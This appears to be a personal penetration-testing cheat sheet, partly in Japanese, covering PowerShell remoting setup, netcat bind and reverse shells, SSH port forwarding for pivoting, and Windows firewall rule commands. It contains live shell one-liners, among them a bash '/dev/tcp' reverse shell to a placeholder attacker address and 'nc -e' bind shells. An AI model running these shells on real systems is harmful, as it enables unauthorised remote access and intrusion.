 # penetration-wiki

## PS-Session

### Server Settings

- username = `easyduck`
- password = `verystrongpassword`
- hostname = `rhostname`
- ipaddress = `xxx.xxx.xxx.xxx`

```pwsh
Enable-PSRemoting
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
net start WinRM
```

### Client

pattern 1

```pwsh
Enter-PSSession -ComputerName "xxx.xxx.xxx.xxx" -Credential "easyduck"
```

pattern 2

```pwsh
Enter-PSSession -ComputerName "hostname"-Credential "easyduck"
```

## Netcat

- RHOST_ip: `xxx.xxx.xxx.xxx`
- LHOST_ip: `yyy.yyy.yyy.yyy`
- RHOST_open_port: `4444`
- LHOST_open_port: `5555`

### bindshell

1. RHOST : `nc -nlvp 4444 -e cmd.exe`
1. LHOST : `nc -nv xxx.xxx.xxx.xxx 4444`

### reverseshell

1. RHOST : `bash -i >& /dev/tcp/yyy.yyy.yyy.yyy/5555 0>&1`
1. LHOST : `nc -nlvp 5555`

## Server Settings

- RPORT = `4444`
- RHOST = `xxx.xxx.xxx.xxx`

```bash
nc -lvp 4444 -e /bin/sh
nc -lvp 4444 -e cmd.exe
```

> **Note**
> must not `cmd` only


## Client

```bash
nc xxx.xxx.xxx.xxx 4444
```

## SSH Port Forwarding

### Local forward

remoteを経由してローカルにあるツールをtargetに対して使いたい場合

```
ssh -fNT -L xxx:target:zzz remote
```

### Remote forward

localを経由して外部にあるtargetにremoteからアクセスさせたい場合

```
ssh -fNT -R xxx:remote:zzz target
```

### Dynamic portforwarding

local を起点とし、remote にsshdが立っているとする。 このとき下記のように-Dオプションを指定して接続することで、local から見たlocalhost:1080がSOCKS Proxyとなる。 なお、SOCKS Proxyのポート番号はtcp/1080が標準的に用いられる [RFC 1928]。

on user@local

```
ssh -D 1080 user@remote
```

ここで local のブラウザ設定からlocalhost:1080をSOCKS Proxyとして指定すると、ブラウザからのすべてのアクセスが remote を経由したアクセスとなる。

## Windows Firewall Settings

### with pwsh

https://docs.microsoft.com/ja-jp/windows/security/threat-protection/windows-firewall/windows-firewall-with-advanced-security-administration-with-windows-powershell

```pwsh
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
New-NetFirewallRule -Name <名前> -DisplayName <表示名> -Enabled true -Profile <有効にするプロファイル> -Action Allow -LocalAddress Any -RemoteAddress Any -Protocol TCP -LocalPort 10050 -RemotePort Any
New-NetFirewallRule -name 'DPF' -displayname 'DPF' -enable true -profile any -action allow -LocalAddress Any -RemoteAddress Any -Protocol TCP -LocalPort 1080 -RemotePort Any
# OnWorkgroup
Get-NetFirewallRule -Name FPS-ICMP4-ERQ-In | Set-NetFirewallRule -enabled true
Get-NetFirewallRule -Name FPS-ICMP6-ERQ-In | Set-NetFirewallRule -enabled true
# OnDomain
Get-NetFirewallRule -name  FPS-ICMP4-ERQ-In-NoScope | Set-NetFirewallRule -enable true
Get-NetFirewallRule -name  FPS-ICMP6-ERQ-In-NoScope | Set-NetFirewallRule -enable true

Get-NetFirewallRule | ? Name -match "FPS-ICMP.-ERQ-In" | Set-NetFirewallRule -Enabled True
```

### with batch

https://docs.microsoft.com/en-US/troubleshoot/windows-server/networking/netsh-advfirewall-firewall-control-firewall-behavior

```batch
netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes

netsh advfirewall firewall add rule name="My Application" dir=in action=allow program= "C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=domain

netsh advfirewall firewall add rule name="My Application" dir=in action=allow program= "C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=domain
netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=private

netsh advfirewall firewall add rule name= "Open Port 80" dir=in action=allow protocol=TCP localport=80

netsh advfirewall firewall delete rule name= rule name program="C:\MyApp\MyApp.exe"

netsh advfirewall firewall delete rule name= rule name protocol=udp localport=500
  
netsh advfirewall reset
    
netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=Yes
    
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
    	
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
  
netsh advfirewall firewall add rule name="ICMP Allow incoming V4 echo request" protocol=icmpv4:8,any dir=in action=allow
  
netsh advfirewall firewall add rule name= "All ICMP V4" protocol=icmpv4:any,any dir=in action=allow
  
netsh advfirewall firewall add rule name="Block Type 13 ICMP V4" protocol=icmpv4:13,any dir=in action=block

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
```
